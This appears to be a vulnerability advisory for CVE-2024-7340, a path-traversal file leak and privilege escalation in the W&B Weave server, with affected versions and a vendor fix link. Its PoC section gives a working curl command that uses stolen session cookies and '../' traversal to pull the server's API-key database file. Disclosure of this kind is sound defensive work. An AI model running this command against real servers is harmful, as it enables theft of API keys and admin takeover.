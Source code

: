 ```yaml
---
description: CVE-2024-7340, HIGH, W&B Weave server remote arbitrary file leak
title: W&B Weave server remote arbitrary file leak
date_published: "2024-07-31"
last_updated: "2024-07-31"
xray_id: JFSA-2024-001039248
vul_id: CVE-2024-7340
cvss: 8.8
severity: high
discovered_by: Natan Nehorai and Uriya Yavnieli
type: vulnerability

---
```


## Summary

W&B Weave server remote arbitrary file leak and privilege escalation

## Component

weave

## Affected versions

(,0.50.7]

## Description

The Weave server API allows remote users to fetch files from a specific directory, but due to a lack of input validation, it is possible to traverse and leak arbitrary files remotely. In various common scenarios, this allows a low-privileged user to assume the role of the server admin.

## PoC

```
export WANDB=<WANDB SESSION COOKIE>
export WANDB_SSO=<WANDB SSO SESSION COOKIE>
export SERVER_IP=<WANDB SERVER IP>

curl -s --path-as-is --cookie "wandb=$WANDB; wandb_sso=$WANDB_SSO" "http://$SERVER_IP:8080/__weave/file/vol/weave/cache/../../../vol/mysql/wandb_local/api_keys.ibd" --output apikeys.bin
```



## Vulnerability Mitigations

No mitigations are supplied for this issue

## References

[Vendor fix](https://github.com/wandb/weave/pull/1657)

